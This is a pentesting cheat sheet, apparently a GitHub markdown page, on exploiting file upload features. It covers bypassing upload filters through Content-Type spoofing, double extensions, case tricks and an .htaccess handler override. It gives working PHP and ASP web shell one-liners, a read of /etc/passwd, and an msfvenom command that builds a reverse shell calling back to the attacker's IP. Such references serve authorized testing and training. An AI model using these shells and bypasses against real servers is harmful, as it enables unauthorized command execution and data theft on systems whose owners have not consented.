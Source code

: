# Uplaod Vulnerabilities

## Prerequisite:

### Find an upload page using directory bruteforce (gobuster), or you may find it on an admin dashboard of a CMS application.

## Overwriting existing files:

### Simply put, rename your payload to the same name of the file you want to overwrite then upload.

## Content-Type Bypass

Upon launching your file, open BurpSuite and change the Content-Type header to something the server accepts.

For example, when uploading a .php shell and the server accepts .png files, you can change the header from:

    application/x-php
    
to

    image/png

Then simply forward the request for the file to be uploaded.


## Double Extension

If the server accepts for example only .png files, but does not validate the content properly, simply add a second valid extension in front of your reverse shell file.

For example, from

    shell.php

to

    shell.php.png

Upload the file to get your shell.

## Image size validation bypass

If the file you want to upload exceeds the file size e.g. 1kb, it won't be accepted by the server.

Hence, we can use a way smaller file like the simple-backdoor.php

    cp /usr/share/webshells/php/simple-backdoor.php /root/Desktop/

After uploading, access you shell to example URL where file uploads migth be located:

    http://domain.local/uploads/simple-backdoor.php?cmd=id

## Blacklisted Extenstion file upload

Some applications might blacklist extensions like .php for example.

To bypass this you can just rename the extension by manipulating the cases.

For example:

    shell.PHP
    shell.pHp
    shell.phP

But before getting your shell, we might need to upload an .htaccess file with the content:

    AddType application/x-httpd-php PHP

Sve the file, then upload it to the server. After that, try to reupload your file.

Upload the file to get your shell if bypassed successfully.

## Web Shells

| **Web Shell**   | **Description**   |
| --------------|-------------------|
| `<?php file_get_contents('/etc/passwd'); ?>` | Basic PHP File Read |
| `<?php system('hostname'); ?>` | Basic PHP Command Execution |
| `<?php system($_REQUEST['cmd']); ?>` | Basic PHP Web Shell |
| `<% eval request('cmd') %>` | Basic ASP Web Shell |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell |
| [PHP Web Shell](https://github.com/Arrexel/phpbash) | PHP Web Shell |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) | PHP Reverse Shell |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |

## Bypasses

| **Command**   | **Description**   |
| --------------|-------------------|
| **Client-Side Bypass** |
| `[CTRL+SHIFT+C]` | Toggle Page Inspector |
| **Blacklist Bypass** |
| `shell.phtml` | Uncommon Extension |
| `shell.pHp` | Case Manipulation |
| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) | List of PHP Extensions |
| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) | List of ASP Extensions |
| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt) | List of Web Extensions |
| **Whitelist Bypass** |
| `shell.jpg.php` | Double Extension |
| `shell.php.jpg` | Reverse Double Extension |
| `%20`, `%0a`, `%00`, `%0d0a`, `/`, `.\`, `.`, `…` | Character Injection - Before/After Extension |
| **Content/Type Bypass** |
| [Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt) | List of Web Content-Types |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt) | List of All Content-Types |
| [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) | List of File Signatures/Magic Bytes |

## Limited Uploads

| **Potential Attack**   | **File Types** |
| --------------|-------------------|
| `XSS` | HTML, JS, SVG, GIF |
| `XXE`/`SSRF` | XML, SVG, PDF, PPT, DOC |
| `DoS` | ZIP, JPG, PNG |
